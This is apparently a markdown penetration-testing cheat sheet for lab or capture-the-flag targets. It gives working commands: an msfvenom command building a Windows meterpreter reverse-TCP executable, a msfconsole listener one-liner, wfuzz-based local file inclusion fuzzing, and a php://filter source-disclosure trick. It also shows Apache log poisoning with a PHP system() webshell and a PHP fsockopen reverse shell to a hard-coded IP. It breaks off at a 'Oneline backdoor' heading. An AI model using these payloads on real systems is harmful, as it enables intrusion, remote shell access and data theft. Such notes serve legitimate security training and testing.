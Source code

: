 ### Generate tcp reverse shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="1234" -f exe -o rev.exe
```

### MSFConsol one line listener

```bash
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT '1234'; exploit"
```

### Suggester

post/multi/recon/local_exploit_suggester

## LFI

### Fuzz

```sh
wfuzz --hw 0 -c -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt http://$IP/page=../../../../../../../../..FUZZ
```

### View php code

```sh
=php://filter/convert.base64-encode/resource=page.php
```

### View access.log

```sh
=/var/www/html/development_testing/../../../../var/log/apache2/access.log
```

### Command injection

- Capture the request in BurpSuite and then send it to Repeater Tab
- Reload page with the User-Agent replaced with this php code: `<?php system($_GET[‘cmd’]);?>`
- Modifiy the get request
  
```sh
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=whoami HTTP/1.1
```

- Use the following reverse shell in cmd= (ctrl+u to encode it)
  
```sh
php -r '$sock=fsockopen("10.9.129.247",1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

- Oneline backdoor
